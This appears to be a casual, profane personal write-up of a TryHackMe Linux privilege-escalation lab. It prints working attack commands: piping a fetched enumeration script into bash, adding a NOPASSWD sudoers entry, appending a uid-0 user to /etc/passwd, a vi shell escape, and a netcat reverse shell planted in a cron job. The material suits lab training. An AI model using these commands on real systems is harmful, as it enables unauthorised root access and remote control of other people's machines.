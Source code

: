 # Common Linux Priviledge Escalation.

```
export IP=10.10.139.93
```

### [Task1] What is it?

- Simple put, linux privesc is going from lower priviledged user in a linux system to a high priviledged user by leveraging misconfigs and other stupid oversights in the system or the systems apps.
There are alot of things that could be achieved by escalating priviledeges, in ctfs you the flag yuyuyu :). In real world scenarios, you get fucked if your system gets pwned(hacker slang for privesc).


### [Task 2] Direction of Priviledge Escalation.

![](https://github.com/Joe-Degs/TryHackMe/Common_Linux_Privesc)
 
- Two main types of of priviledge escalation:
1. **Horizontal priviledge Escalation:** this basically means taking over other user accounts on the victim system. (traveling sideways on the tree)
2. **Vertical priviledge Escalation:** this means taking over the admin or root account on the server. (traveling upwards on the three)


### [Task 3] Enumeration.

- its time to do my little `python3 http.server 4444` then `curl http://<my_ip>:4444/LinEnum.sh | bash`.


### [Task 4] Abusing SUID/GUID Files
- There was suid binary in there. Ran it and got root. Then changed my user too a root user with nopasswd priveledge
```
find / -perm -u=s -type f 2>/dev/null   //find file with setuid permision.

user3   ALL=(ALL:ALL) NOPASSWD:ALL  //added this to get root user priviledge
```


### [Task 5] Exploiting Writable /etc/passwd
- from the previous challenge we saw that we could write to the /etc/passwd file. Now we can just add a new user to the file. If you know how to do that correctly. 
An example is:
```
test:x:0:0:root:/root:/bin/bash

// structure is

username:password:user-id:group-id:userid-info:home-directory:command/shell
```
- username shd be btn 1 to 32 characters.
- password shd be hashed appropriately and stored in /etc/shadow file. You will use the `passwd` compute to do that.
- user id and group id, each user must be assigned a unique id, 0 is for root, 1-99 for predefined users, 100-999 for system and administrative users. For groups, those motherfuckers can have any range of number they want LOL!, it shd be stored in the /etc/group file alongside thoo.
- command/shell is supposed to be the absolute command of the user, doesnt have to be a shell thoo, can be any command the motherfucker likes

```
//creating a password hash with salt "new" and password "123"
openssl passwd -1 -salt new 123

hash => $1$new$p7ptkEKU1HnaHpRtzNizS1

//now lets create a new root user with username "new".
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

//now we add it like so

echo "new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash" >> /etc/passwd    //this didnt work

i opened nano, copied and pasted it and it worked.
```


### [Task 6] Escaping Vi Editor
- My favorite one :). Just open [GTFOBins](https://gtfobins.github.io) and start hacking like a motherfucker.

- this user can run vi as root with nopasswd priviledge.. we use this to get root!
```
vi -c ":/bin/sh" /dev/null
```

### [Task 7]Exploiting Crontab
- first thing i do is run `crontab -l` if it doesnt give anything?.. i proceed to `cat /etc/passwd`.
```
"mkfifo /tmp/odpwmm; nc 10.8.29.246 8888 0</tmp/odpwmm | /bin/sh >/tmp/odpwmm 2>&1; rm /tmp/odpwmm"
```
- just the normal old reverse shell exploit i have been using.
- Also i need to give serious attention to the metasploit thingy

### [Task 8] Exploiting PATH variable.
- We are going to use suid binaries that call commands in paths we have manipulated to do what we have manipulated them to do as root.
-Errm we done with that.

### [Task 9] Expanding my Knowledge
- We have done great work here. Now its over to us to learn more and get better at this stuff actually,.

- some links to great resources i have to read up on real soon
1. [](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)

2. [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

3. [](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

4. [](https://payatu.com/guide-linux-privilege-escalation)